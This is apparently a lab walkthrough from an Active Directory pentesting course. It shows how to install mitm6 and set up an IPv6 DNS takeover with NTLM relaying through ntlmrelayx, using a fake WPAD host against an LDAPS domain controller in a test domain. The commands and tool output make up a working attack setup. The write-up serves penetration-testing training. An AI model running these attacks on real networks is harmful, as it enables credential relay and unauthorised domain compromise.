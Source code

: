 
First of all install [pimpmykali](https://github.com/Dewalt-arch/pimpmykali) cos' the tool `mitm6` doesn't come pre-installed with kali linux

![](https://i.imgur.com/SyvCBNl.png)

Change directory to `/opt/mitm6` and install the necessary requirements

```shell
sec-fortress@Pwn-F0rk-3X3C:/opt/mitm6$ cd /opt/mitm6      

sec-fortress@Pwn-F0rk-3X3C:/opt/mitm6$ sudo pip2 install .

sec-fortress@Pwn-F0rk-3X3C:/opt/mitm6$ cd ~         

sec-fortress@Pwn-F0rk-3X3C:~$ 
```

![](https://i.imgur.com/jIbtM8b.jpg)

### Setting up ntlmrelayx and mitm6

On your terminal do :

```shell
sec-fortress@Pwn-F0rk-3X3C:~/PEH/AD$ ntlmrelayx.py -6 -t ldaps://192.168.0.110 -wh fakewpad.marvel.local -l bankai

Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Protocol Client SMB loaded..
[*] Protocol Client SMTP loaded..
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
[*] Protocol Client MSSQL loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server

[*] Servers started, waiting for connections
```

Note that `-6` represents IPv6 `-t` for targets `-wh` for fake web proxy auto-discovery `-l` will create a folder named **bankai**

Then start up the `mitm6` server with the following command :

```shell
sec-fortress@Pwn-F0rk-3X3C:~$ sudo mitm6 -d marvel.local
```

![](https://i.imgur.com/S8Go70A.png)

Now we can go ahead and re-boot our `THE-PUNISHER` machine and focus on our terminal

![](https://i.imgur.com/3DID7Ig.png)
